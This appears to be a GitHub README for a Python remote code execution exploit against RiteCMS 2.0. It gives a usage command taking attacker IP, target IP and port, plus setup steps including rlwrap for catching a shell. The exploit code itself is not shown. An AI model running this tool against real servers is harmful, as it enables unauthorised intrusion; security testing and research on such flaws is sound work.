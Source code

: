 # RiteCMS-2.0-Remote-Code-Execution
A Remote Code Execution python script to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```

## NOTE
If first run does not work, try to run again.
